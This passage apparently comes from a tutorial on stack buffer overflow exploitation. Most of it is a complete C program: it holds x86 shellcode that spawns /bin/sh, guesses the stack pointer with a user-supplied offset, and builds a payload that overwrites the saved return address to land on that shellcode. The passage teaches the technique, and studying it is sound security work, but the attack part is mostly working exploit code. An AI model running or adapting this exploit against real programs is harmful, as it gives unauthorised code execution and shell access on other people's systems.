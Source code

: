 ```c
```

The problem with this exploit is that we need to be very precise when overwriting the `EIP`, and we need to land exactly on top of our shellcode, so the stack pointer address won’t be enough.

We need to offset this address with some value, which needs to be guessed by trying different combinations. Remember that **the stack grows downwards**, so we need to subtract the offset from the `sp` value.

Let’s modify our exploit so we as users can change the address :

```c
#define BUFF_SIZE 180
#include <stdio.h>

unsigned char sc[] = 
        "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08"
        "\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8"
        "\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc3"
        ;

unsigned int get_sp() {
    __asm__("movl %esp, %eax");
}

void main(int argc, char** argv) {
    unsigned int sp = get_sp();
    unsigned char buff[BUFF_SIZE] = {0};
    unsigned int *p_buff = (unsigned int*) buff;
    unsigned char *p_cbuff;

    // Offset the stack pointer address with a user-supplied value
    if (argc > 1)
        sp = (unsigned int) (sp - (unsigned int) atoi(argv[1]));

    // Fill the whole array with the stack pointer value
    for(int i = 0; i < BUFF_SIZE; i+=4) {
        *(p_buff++) = (unsigned int) sp;
    }

    // Set a new pointer to the beginning of the array
    p_cbuff = (unsigned int*) buff;

    // Put our shellcode in the array
    for(int i = 0; i < (sizeof(sc) - 1); i++) {
        *(p_cbuff++) = sc[i];
    }

    // Print the array to stdout
    // The array has the form : "shellcode, addr, addr, addr ... "
    puts(buff);
}
```
